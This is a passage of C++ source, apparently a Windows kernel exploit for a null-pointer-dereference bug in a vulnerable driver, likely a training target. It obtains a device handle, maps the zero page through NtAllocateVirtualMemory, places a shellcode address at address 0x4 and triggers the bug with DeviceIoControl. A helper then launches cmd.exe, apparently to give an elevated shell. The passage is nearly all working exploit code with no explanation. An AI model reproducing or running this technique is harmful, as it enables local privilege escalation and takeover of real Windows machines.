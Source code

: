 ```cpp
    NULL);

  printf("[+]Start to get HANDLE...\n");
  if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
  {
    return FALSE;
  }
  printf("[+]Success to get HANDLE!\n");
  return TRUE;
}

static VOID CreateCmd()
{
  STARTUPINFO si = { sizeof(si) };
  PROCESS_INFORMATION pi = { 0 };
  si.dwFlags = STARTF_USESHOWWINDOW;
  si.wShowWindow = SW_SHOW;
  WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
  BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

VOID Trigger_shellcode()
{
  DWORD bReturn = 0;
  char buf[4] = { 0 };
  *(PDWORD32)(buf) = 0xAAAAAAAA;

  *(FARPROC*)&NtAllocateVirtualMemory = GetProcAddress(
    GetModuleHandleW(L"ntdll"),
    "NtAllocateVirtualMemory");

  if (NtAllocateVirtualMemory == NULL)
  {
    printf("[+]Failed to get function NtAllocateVirtualMemory!!!\n");
    system("pause");
  }

  PVOID Zero_addr = (PVOID)1;
  SIZE_T RegionSize = 0x1000;

  printf("[+]Started to alloc zero page...\n");
  if (!NT_SUCCESS(NtAllocateVirtualMemory(
    INVALID_HANDLE_VALUE,
    &Zero_addr,
    0,
    &RegionSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE)) || Zero_addr != NULL)
  {
    printf("[+]Failed to alloc zero page!\n");
    system("pause");
  }

  printf("[+]Success to alloc zero page...\n");
  *(DWORD*)(0x4) = (DWORD)&ShellCode;

  DeviceIoControl(hDevice, Null_Pointer_Dereference, buf, 4, NULL, 0, &bReturn, NULL);
}

int main()
{
```